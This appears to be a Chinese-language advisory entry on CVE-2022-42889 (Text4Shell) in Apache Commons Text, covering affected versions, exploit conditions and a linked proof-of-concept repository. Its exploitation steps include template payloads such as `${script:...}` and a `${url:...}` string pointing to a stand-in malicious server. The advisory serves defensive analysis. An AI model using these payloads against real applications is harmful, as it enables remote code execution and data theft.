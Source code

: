 ## CVE-2022-42889: Apache Commons Text RCE

**漏洞编号:** CVE-2022-42889

**漏洞类型:** 远程代码执行 (RCE)

**影响应用:** Apache Commons Text

**危害等级:** 高危，可能导致远程代码执行

**影响版本:** 1.5 <= version <= 1.9

**利用条件:** 应用程序使用受影响版本的 Apache Commons Text，并且允许用户可控的字符串进行变量插值。

**POC 可用性:** 是

**投毒风险:** 0%

## 详情

CVE-2022-42889 漏洞是 Apache Commons Text 库中一个远程代码执行漏洞，存在于 1.5 到 1.9 版本中。该漏洞源于库中存在不安全的默认变量插值配置，允许攻击者通过 `${prefix:name}` 格式的字符串执行任意代码或与远程服务器交互。其中，`prefix` 用于定位执行插值的 `org.apache.commons.text.lookup.StringLookup` 实例。存在风险的 `prefix` 包括 `script` (执行 JVM 脚本), `dns` (解析 DNS 记录), 和 `url` (从 URL 加载值)。

**有效性：**
根据漏洞描述、搜索结果和漏洞利用方式，该漏洞利用是有效的。搜索结果中多个链接表明该漏洞（又名 Text4Shell）是一个严重的安全问题，允许远程代码执行。

**投毒风险：**
提供的代码片段是 Apache License 的许可证文本，不包含任何可执行代码，因此不存在投毒风险。投毒风险评估为 0%。

**利用方式：**
1.  应用程序使用 Apache Commons Text 1.5 到 1.9 版本。
2.  应用程序接受用户提供的字符串，并使用该字符串进行变量插值，没有进行充分的过滤或安全处理。
3.  攻击者构造包含恶意 `prefix` 的字符串，例如 `${script:javascript code}` 或 `${url:http://malicious-server/evil.txt}`。
4.  Apache Commons Text 解析该字符串，并执行相应的操作，例如执行 JavaScript 代码或从恶意 URL 加载内容，从而导致远程代码执行或信息泄露。

**项目地址:** [QAInsights/cve-2022-42889-jmeter](https://github.com/QAInsights/cve-2022-42889-jmeter)

**漏洞详情:** [CVE-2022-42889](https://nvd.nist.gov/vuln/detail/CVE-2022-42889)